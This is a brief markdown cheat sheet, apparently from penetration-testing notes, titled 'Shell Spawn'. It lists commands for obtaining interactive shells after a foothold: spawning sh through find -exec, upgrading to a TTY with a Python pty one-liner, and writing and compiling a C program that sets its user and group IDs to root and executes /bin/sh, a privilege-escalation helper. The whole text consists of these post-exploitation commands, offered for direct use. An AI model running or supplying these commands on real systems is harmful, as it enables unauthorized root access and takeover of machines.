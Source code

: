 # Shell Spawn

## Commands

`$ find . -exec sh -i \;`
`$ python -c ‘import pty;pty.spawn(“/bin/bash”);’`

## Programs

### C

`$ echo "int main(void){setgid(0);setuid(0);execl(\"/bin/sh\",\"sh\",0);}" > rootme.c && gcc rootme.c -o rootme`